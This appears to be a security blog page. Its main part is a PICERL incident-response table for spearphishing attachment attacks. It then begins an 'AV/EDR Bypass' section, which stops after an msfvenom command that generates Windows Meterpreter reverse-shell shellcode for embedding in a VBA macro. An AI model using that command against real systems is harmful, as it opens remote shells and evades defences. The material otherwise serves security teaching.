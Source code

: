 First of all, what is [**PICERL**](https://www.sans.org/media/score/504-incident-response-cycle.pdf) ?  The P.I.C.E.R.L. framework (Preparation, Identification, Containment, Eradication, Recovery, Lessons Learned) is a structured approach used in cyber incident response to effectively detect, mitigate, and recover from security threats. It ensures that organizations handle incidents proactively and efficiently, reducing the impact of cyberattacks.

![InitialAccess](/assets/img/TACTFLOW/PICERL.png)


The following table outlines a detailed response plan for Spearphishing Attachment attacks, a common Initial Access technique (T1566.001) where attackers use malicious email attachments to deliver malware or steal credentials. This plan provides a step-by-step strategy to detect, contain, and mitigate phishing threats while strengthening security defenses.



| **Preparation (P)**                         | **Identification (I)**                         | **Containment (C)**                       |
|---------------------------------------------|-----------------------------------------------|-------------------------------------------|
| Implement **email security gateways (SEG)** to filter malicious attachments | Detect phishing emails with **SOC monitoring, user reports, and threat intelligence feeds** | **Quarantine** suspected phishing emails before reaching users |
| Enable **sandboxing** for attachments to analyze suspicious files | Monitor **email logs** for messages containing macros, executables, or uncommon file types (`.docm`, `.iso`, `.lnk`) | Block **sender domains and IP addresses** identified in phishing campaigns |
| Configure **Advanced Threat Protection (ATP)** to detect known phishing patterns | Identify **user interactions** (who clicked the link or opened attachments) | **Revoke user access** to affected systems if compromised |
| Conduct **regular phishing simulations** and security awareness training | Check for **PowerShell, VBA macro execution, or network traffic anomalies** | **Blacklist malicious URLs and IOCs** in firewalls and endpoint security tools |
| Enforce **email authentication (DMARC, DKIM, SPF)** to prevent spoofing | Inspect **email headers, sender addresses, and embedded URLs** for spoofing indicators | Implement **DLP (Data Loss Prevention) rules** to prevent data exfiltration |
| Ensure **SIEM alerts** are configured for phishing indicators | Correlate phishing attempts with **known threat actor TTPs** | **Perform forensic analysis** on affected machines |

| **Eradication (E)**                        | **Recovery (R)**                             | **Lessons/Opportunities (L)**             |
|---------------------------------------------|-----------------------------------------------|-------------------------------------------|
| **Remove all malicious attachments** from email servers | Restore **user accounts and credentials** after validation | Strengthen **email security policies** based on attack patterns |
| Scan **infected endpoints** for malware or payloads delivered via attachments | Verify **logs and endpoint security** to confirm no persistence mechanisms exist | Implement stricter **attachment filtering** for untrusted file types |
| Reset credentials of **affected users** and enforce MFA | Ensure **EDR/XDR tools** are updated with new threat indicators | Review **incident response logs** to refine detection rules |
| Conduct **IOC sweeping** in email and SIEM logs for similar threats | Restore **backup copies** of critical files if modified or encrypted | Develop **user awareness programs** to improve phishing identification |
| Ensure **threat signatures are updated** in antivirus solutions | Perform **post-incident analysis** to identify potential vulnerabilities | Test **SOC response readiness** through tabletop exercises |
| Remove **persistence mechanisms** (registry changes, scheduled tasks) if malware was executed | Implement **long-term monitoring** for recurring attacks | Regularly review **MITRE ATT&CK mappings** for phishing evolution |


---
## 2. AV/EDR Bypass & Spearphishing Attachment (T1566.001) 
### 2.1. VBA & Bypass AV
1. Create the payload using `msfvenom` and copy it to the script `CeasarVBAHelper.cs` below:
    ```bash
    sudo msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
    ```
